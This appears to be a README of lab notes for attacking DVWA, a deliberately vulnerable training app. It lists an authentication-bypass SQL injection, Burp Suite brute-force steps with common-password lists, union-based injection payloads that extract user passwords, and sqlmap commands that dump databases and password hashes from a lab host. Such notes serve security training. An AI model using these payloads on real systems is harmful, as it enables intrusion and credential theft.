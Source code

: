 # DVWA - Damn Vulnerable Web Application

![](assets/picture01.png) 

## 1. Test SQL injection to bypass authentication
username = admin'#
pass = <blank>

## 2. Use Bursuite to brute force
2.1. Capture the request
2.2. Send to intruder
2.3. Select the Cluster Bomb
2.4. Set payloads
2.5. Start attack

List of usernames to Use
user
carlos
admin
superadmin

List of passwords to Use (top passwords od 2022)
123456
123456789
qwerty
password
12345
qwerty123
1q2w3e
12345678
111111
1234567890

## 3. SQL injection
    a' OR ''='

    ' union select 1,@@version#

    ' union select null,schema_name from information_schema.schemata #

    ' union select null,concat(first_name,0x0a,password) from users #

## 4. Blind SQL injection with SQLmap
### Lists databases
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" –dbs
### Lists the tables on a specific database
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --tables
### Lists all users
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" –users
### Users and passwords
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" --users --passwords
### Get tables structure
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --columns
### Dump database information
    sqlmap -u "http://192.168.8.142/dvwa/vulnerabilities/sqli_blind/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" -D dvwa --dump